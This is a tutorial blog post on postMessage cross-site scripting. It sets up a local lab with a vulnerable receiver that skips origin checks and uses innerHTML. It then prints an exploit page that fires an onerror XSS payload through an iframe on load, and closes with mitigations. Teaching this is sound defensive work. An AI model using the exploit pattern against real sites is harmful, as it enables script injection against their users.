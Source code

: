 # INTRODUCTION

Due to the `same-origin policy`, scripts from different pages cannot interact with each other. They are only permitted to access each other if the pages they originate from share the same protocol, port number, and host. This policy is in place to prevent websites from attacking each other. Without the same-origin policy, visiting a malicious website could potentially allow it to access your emails from Gmail, private messages from Facebook, and so on.

However, this policy introduces `restrictions` that can limit functionality in web applications requiring `cross-origin communication`. For instance, consider a web application that embeds a third-party payment gateway within an iframe. The main page needs to communicate with the payment gateway to process transactions. Due to the same-origin policy, the main page cannot directly interact with the iframe's content because they originate from different domains.

To address these challenges, `window.postMessage()` is introduced. It is a method that safely enables `cross-origin communication` between Window objects. For example, it facilitates communication between a page and a pop-up it spawned, or between a page and an iframe embedded within it. This is achieved by using the postMessage method to send data from the sender's side and setting up an `event listener` to receive the data on the receiver's side.

For instance, to send a message to a third-party iframe embedded within a webpage, you can utilize the postMessage method. This method specifies both the message content to be sent and the target origin as follows:

```javascript

thirdPartyIframe.contentWindow.postMessage(message, 'https://third-party.com');

```

Here, it accesses the window object of the embedded iframe, then invokes postMessage method to send the message to the iframe's window, ensuring it is received only by iframes loaded from the specified targetOrigin ('https://third-party.com').

On the receiving side, the script must implement an event listener using `addEventListener` to receive the message sent from the sender:


```javascript

window.addEventListener('message', function(event) {
        const response = event.data;
});
```

This allows exchange of data between different parts of a web application while adhering to browser security policies. However, insecure use of postMessage could lead to vulnerabilities like XSS (Cross-Site Scripting), as demonstrated below.

# LAB SETUP

For this demo, we set up a local web server running at 127.0.0.1, and we added host file entries for three different origins:

- mainweb.com: This is the main web page that embeds the third-party web page and sends messages to thirdparty.com using postMessage.
- thirdparty.com: This acts as the third-party site, receiving and processing messages from any domain.
- exploit.com: This is the attacker domain where the malicious script is hosted to exploit the XSS vulnerability in thirdparty.com.

# IDENTIFYING POSTMESSAGE XSS

To identify postMessage XSS, we first need to determine : 

- Whether the target application utilizes `web messaging`.
- Whether the `origin` of the sender is `validated` on the receiving event listener.
- Whether the message event is handled using `functions` or `attributes` that can lead to an `XSS`. 

Let's start with the first point. The most effective method to identify the use of postMessage in a web application is by utilizing the `global search option` in the developer tools. This allows us to search for specific keywords in the JavaScript files, such as `postMessage()`, `addEventListener`, and others.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool.png)

As we can see, by using developer tool, we're able to identify the usage of postMessage in this web application. Let's examine the file.


![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-mainweb.png)

This is straightforward: it makes use of postMessage to send a message to the webpage embedded within it, which is `thirdparty.com/receiver.html`. With this understanding, let's now analyze the event listener responsible for processing the message. We can employ the same method to search for the `addEventListener` keyword.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/devtool1.png)

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-thirdparty.png)

By analysing the event listener, we can see `it doesn't validate the origin of the message`, this means it can receive and process a message originating from any domain. This is useful for attacker as his malicious script needs to be hosted in different domain, so without origin validation, attacker can have his script hosted in malicious website and get his payload handled and processed by the event listener of the vulnerable website.

Lastly, we need to examine the functions or attributes used to handle the message event. To do this, we first need to know the list of `functions` and `attributes` that could lead to XSS.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/listfunc1.png)

There is a possibility of XSS if any of the mentioned functions or attributes are used to handle a message event. In our case, `document.innerHTML` is used to display the message on the webpage, which can lead to XSS vulnerabilities if the message is not properly sanitized or validated.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/analysing-function.png)

Therefore, we can craft an XSS payload, host it on our malicious website, and trick a user into visiting our site. This will trigger our script, which will then send the payload to the vulnerable website, causing it to execute which will result in an XSS attack.

# EXPLOITING POSTMESSAGE XSS

Since we have identified the use of web messaging and the possibility of an XSS attack on the vulnerable application, we will attempt to exploit it by crafting a malicious payload and hosting it on our malicious domain, exploit.com. The payload will be written as follows:

```html

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>PostMessage XSS Exploit</title>
    <script>
        function sendExploitMessage() {
            const targetWindow = document.getElementById('targetIframe').contentWindow;
            const maliciousMessage = '<img src=x onerror=alert("Exploited")>';
            targetWindow.postMessage(maliciousMessage, '*');
        }

        window.onload = function() {
            sendExploitMessage();
        }
    </script>
</head>
<body>
    <h1>PostMessage XSS Exploit</h1>
    <iframe id="targetIframe" src="http://thirdparty.com/receiver.html" width="600" height="400"></iframe>
</body>
</html>

```

The `sendExploitMessage()` function is designed to send the payload to the vulnerable website. The message contains our XSS payload. Whenever a victim visits our malicious site, the window.onload event will automatically call sendExploitMessage, which sends our payload to the vulnerable page at thirdparty.com/receiver.html. This will trigger the payload, resulting in an XSS attack.

![cmdi](https://raw.githubusercontent.com/cyb3rkh4l1d/cyb3rkh4l1d.github.io/main/exploit.png)

Upon visiting the malicious site, our XSS payload is executed on the vulnerable endpoint within the thirdparty.com domain.

# Mitigations

- If the application does not require communication such as receiving messages from other websites, it is advised to not utilize the event listeners for the message events unnecessarily.
- Always verify the sender’s identity using the origin.

